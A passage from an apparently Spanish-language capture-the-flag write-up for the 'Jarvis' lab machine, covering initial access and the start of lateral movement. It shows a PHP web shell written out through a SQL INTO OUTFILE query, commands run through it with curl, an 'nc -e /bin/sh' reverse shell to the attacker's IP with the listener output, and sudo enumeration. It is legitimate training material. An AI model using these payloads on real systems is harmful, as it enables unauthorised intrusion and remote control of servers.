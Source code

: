 # **GANANDO ACCESO AL SISTEMA**

A partir de aquí la intrusión al sistema es pan comido, os dejo aquí un link donde explica paso a paso como hacerlo: [Link](https://www.eninsoft.com/obtener-una-shell-del-s-o-via-mysql-o-phpmyadmin/)

1º ejecutamos esta sintaxis SQL y le damos a go: 

`SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/RCE.php"`

2º Accedemos a la pagina que acabamos de crear:

http://10.10.10.143/RCE.php

3º A traves de la variable cmd, le decimos que comando queremos ejecutar

```bash
❯ curl -s -X get "http://10.10.10.143/RCE.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ya solo tendriamos que ponernos en escucha por un puerto en nuestra maquina, y ejecutar una reverse shell en la web:

```bash
❯ curl -s -X get "http://10.10.10.143/RCE.php?cmd=nc+-e+/bin/sh+10.10.16.198+443"

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.198] from (UNKNOWN) [10.10.10.143] 54394
hostname;whoami
jarvis
www-data
```

# MOVIMIENTO LATERAL

Ya estamos dentro ahora toca enumerar el sistema, no podemos ver la flag asi que tenemos que ganar acceso como el usuario pepper:

```bash
www-data@jarvis:/home/pepper$ ls -la
drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
-r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
```

Tenemos un privilegio sudo:

```bash
www-data@jarvis:/home/pepper$ sudo -l
User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```
